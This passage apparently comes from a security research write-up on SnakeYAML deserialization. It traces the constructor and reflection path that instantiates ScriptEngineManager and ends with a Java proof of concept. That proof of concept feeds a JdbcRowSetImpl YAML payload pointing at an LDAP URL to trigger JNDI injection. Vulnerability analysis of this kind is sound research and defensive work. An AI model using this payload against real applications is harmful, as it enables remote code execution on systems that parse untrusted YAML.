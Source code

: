 <div align=center><img src="./images/12.png"></div>

Follow up on the `constructObjectNoCheck` method.

<div align=center><img src="./images/13.png"></div>

Then follow up on the `construct.construct` method, here you will call `this.getConstructor`, and then follow up and find that you will continue to call `getClassForNode`. In this method, you get the value of `name` of `javax.script.ScriptEngineManager`, and then call `getClassForName` to pass in to get the `cl` class object.

Follow up on `getClassForName`, here using reflection to create a specific implementation of a `javax.script.ScriptEngineManager` object.

<div align=center><img src="./images/14.png"></div>

<div align=center><img src="./images/15.png"></div>

<div align=center><img src="./images/16.png"></div>

Then go back to the above, continue to follow up on the `construct`, and focus the focus in the `else` statement. This code creates an array of `array` and calls `node.getType.getDeclaredConstructors();`assigns to the `arr$` array. In the above analysis, the obtained `name`, that is, uses `javax.script.ScriptEngineManager` and `Class.forName` to create a reflective object and assign it to the `type` of `note`. Then call `getDeclaredConstructors` to get its parameterless constructor.

<div align=center><img src="./images/17.png"></div>

Then add the obtained `arr` array to `possibleConstructors`, and then assign the first array obtained by the obtained `possibleConstructors` and convert it into the `Constructor` type.

<div align=center><img src="./images/18.png"></div>

Then go back and traverse to get the value of `snode`, instantiate the object using reflection, and finally instantiate the `javax.script.ScriptEngineManager(java.lang.ClassLoader)` constructor, and then the analysis process of the `SPI` mechanism mentioned above.

<div align=center><img src="./images/19.png"></div>

### JdbcRowSetImpl
#### Vulnerability Demo
Use the classic `JdbcRowSetImpl` in `Fastjson` to successfully open it.

```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/1 4:39 pm
 */
public class JdbcRowSetImplExploit {

    public static void main(String[] args) {

        String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://127.0.0.1:1389/dx2zdj\"\n autoCommit: true";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
